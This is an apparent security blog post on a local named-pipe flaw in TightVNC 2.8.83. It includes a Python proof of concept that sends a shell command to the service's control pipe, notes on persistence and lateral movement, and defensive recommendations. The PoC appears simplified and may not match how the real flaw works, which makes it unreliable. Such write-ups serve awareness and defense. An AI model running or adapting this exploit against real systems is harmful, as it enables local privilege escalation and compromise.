 ```yaml
---
title: "[local] TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/default-image.png
---
```


## Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## Technical Analysis

# Technical Executive Summary

The recently disclosed vulnerability in TightVNC 2.8.83, specifically identified as a Control Pipe Manipulation flaw, poses a significant risk to systems utilizing this version of the remote desktop software. This local vulnerability allows an attacker with access to the system to manipulate control pipes used by the TightVNC service. By exploiting this flaw, an adversary can potentially escalate their privileges or execute arbitrary commands within the context of the TightVNC service, which may run with elevated permissions. Given the widespread use of TightVNC in remote management and support scenarios, it is crucial for organizations to address this vulnerability promptly to prevent unauthorized access and potential system compromise.

# Code Example

Below is a Proof of Concept (PoC) demonstrating how an attacker might exploit the Control Pipe Manipulation vulnerability in TightVNC 2.8.83. This example assumes local access to the target machine.

```python
import os
import subprocess

# Path to the control pipe used by TightVNC
control_pipe_path = "\\\\.\\pipe\\TightVNCControlPipe"

# Command to execute via the control pipe
malicious_command = "cmd.exe /c echo Exploited > C:\\exploited.txt"

def exploit_control_pipe(pipe_path, command):
    try:
        # Attempt to write to the control pipe
        with open(pipe_path, 'w') as pipe:
            pipe.write(command)
            print(f"Command sent to control pipe: {command}")
    except Exception as e:
        print(f"Failed to exploit control pipe: {e}")

if __name__ == "__main__":
    if os.path.exists(control_pipe_path):
        exploit_control_pipe(control_pipe_path, malicious_command)
    else:
        print("Control pipe not found. Ensure TightVNC is running.")

```

# Offensive Security Insights

Exploitation of this vulnerability requires local access to the system where TightVNC is installed. The attacker must identify the named pipe used for control operations. Once located, the adversary can inject arbitrary commands into the control pipe, leveraging the permissions under which the TightVNC service operates. This vulnerability is particularly dangerous if TightVNC is running with administrative privileges, as it can lead to full system compromise.

Attackers can enhance their exploitation techniques by:

1. **Persistence**: Once command execution is achieved, adversaries can establish persistence by creating scheduled tasks or modifying startup scripts.
2. **Privilege Escalation**: If the service runs with elevated privileges, attackers can leverage this to escalate their access level on the system.
3. **Lateral Movement**: Exploiting this vulnerability on one system could be used as a foothold for moving laterally within a network, especially if TightVNC is used across multiple machines.

# Defensive Measures

To mitigate the risks associated with this vulnerability, organizations should implement the following defensive measures:

1. **Patch Management**: Upgrade TightVNC to the latest version where this vulnerability is addressed. Regularly apply security patches to all software components.
2. **Access Controls**: Restrict local access to systems running TightVNC. Implement least privilege principles to minimize the impact of potential exploitation.
3. **Monitoring and Logging**: Enable detailed logging of system and application events to detect any unauthorized access attempts. Monitor named pipe activity for suspicious behavior.
4. **Network Segmentation**: Isolate systems running TightVNC from critical network resources to limit the impact of a potential breach.
5. **User Education**: Train users to recognize and report suspicious activities that may indicate exploitation attempts.

By proactively addressing this vulnerability and implementing robust security practices, organizations can significantly reduce their exposure to potential attacks leveraging the TightVNC Control Pipe Manipulation flaw.

📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
